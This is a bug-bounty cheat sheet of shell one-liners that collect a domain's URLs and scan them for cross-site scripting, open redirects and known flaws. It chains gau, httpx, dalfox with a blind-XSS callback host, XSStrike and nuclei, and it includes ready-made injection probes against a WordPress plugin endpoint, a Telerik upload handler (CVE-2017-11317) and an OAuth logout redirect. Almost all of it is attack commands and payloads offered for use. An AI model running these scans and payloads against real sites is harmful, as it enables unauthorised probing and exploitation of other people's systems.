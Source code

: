 ## XSS
    echo vulnweb.com | gau | tee domain.txt
    httpx -l domain.txt -mc 200,302 -o domain200.txt 
    cat domain200.txt | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | tee domain4xss.txt 
    cat urls.txt | uro 
    dalfox file domain4xss.txt -b (xss.ht or collaborator) pipe 
    cat indeed.txt | kxss > xss.txt 
    python XSStrike/xsstrike.py --seeds domain4xss.txt --fuzzer --level 3 -rate 2 --blind --file-log-level WARNING --log-file output.log

    cat list.txt | httpx | xargs -I {} python xsstrike.py -u {} --level 3  --blind --file-log-level WARNING --log-file output.log

    cat urls.txt | go run ParamsReflect.go
    cat injected_urls.txt | sort -u | httpx -ms "<h1>akira</h1>" -fe "Location: .*<h1>akira</h1>.*" -t 200

   ### oneLine:
       cat Domains.txt | gau | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | uro | httpx -o domain4xss.txt

## wordpressXss:
    cat domain.txt | httpx -path "/wp-admin/admin-ajax.php?action=ptp_design4_color_columns&post_id=1&column_names=%3Ch1%3EAkira%3C/h1%3E" -ms "<h1>Akira</h1>" -fe "Location: .*<h1>Akira</h1>.*" -t 200 -mc 200

## Telerik RCE(CVE-2017-11317)
    cat domain.txt | httpx -path "/Telerik.Web.UI.WebResource.axd?type=rau" -ms "message" -t 200 -mc 200

    
## Open Redirect
    cat URlSubs.txt | ~/go/bin/httpx -path "/oauth/idp/logout?post_logout_redirect_uri=%0d%0a%0d%0a%3Cscript%3Ealert('XSSSS')%3C/script%3E" -ms "XSSSSS" -fe "Location: .*XSSS.*" -t 200 -o xss.txt

    
    echo "https://web.archive.org/cdx/search/cdx?url=*.example.com&fl=original&collapse=urlkey" | httpx -er '(https?://[^&\s]+)[^&\s]*(\?|&)(outurl=|redirectionURL=|refURL=|returnURL=|siteurl=|targetURL=|urlTo=|redirectLocation=|redirectPage=|redirectPath=|redirectUrlTo=|urlRedirect=|redirectTo=|linkTo=|urlOut=|outboundUrl=|navTo=|jumpTo=|clickTo=|linkURL=|directTo=|moveTo=|outgoing_url=|outbound_link=|location_to=|forward=|from_url=|go=|goto=|host=|html=|image_url=|img_url=|load_file=|load_url=|login?to=|login_url=|logout=|navigation=|next=|next_page=|out=|page=|page_url=|path=|port=|redir=|redirect=|redirect_to=|redirect_uri=|redirect_url=|reference=|return=|returnTo=|return_path=|return_to=|return_url=|rt=|rurl=|show=|site=|target=|to=|uri=|url=|val=|validate=|view=|window=|location=|link=|click=|move=|jump=|follow=|nav=|ref=|locationURL=|redirectURL=|redirect_to_url=|pageurl=|navigate=|returnUrl=|redirectlink=|redirection=|referral=|direct=|forwardto=|gotoURL=|outlink=|targ=|linkto=|sendto=|dest=|destURL=|destination=|finalURL=|newUrl=|goToUrl=|navToURL=|referralURL=|returnURI=|uri_redirect=|path_redirect=|url_redirect=|location_redirect=|returnPath=|returnToURL=|outgoingURL=|redirectURI=|redirect_path=|redirect_url_path=|targetPath=|clickTarget=|followURL=|linkOut=|location_href=|jumpURL=|returnLink=|refLink=|sendURL=|url_destination=|redirect_destination=|goto_url=|forward_url=|nav_to=|move_to_url=|url_location=|redirect_location=|target_url=|target_link=|return_url_path=|return_to_path=|outgoing_link=|link_destination=|click_destination=|redirector=|redirection_link=|uri_location=|url_path=|path_to=|path_redirector=|go_url=|forward_link=|location_path=)[^&\s]*' -json | jq '.extracts[]' | sed 's/  "//g'| sed 's/"//g' | sed 's/\[//g' | sed 's/\]//g' | sed 's/,//g' > openredirect.txt


## Nuclie
    
    nuclei -l domains.txt -es info -ept ssl -o data.txt
    # dirsearch 
    dirsearch -l domain200.txt -e '' -i 200-299 -x 300-599

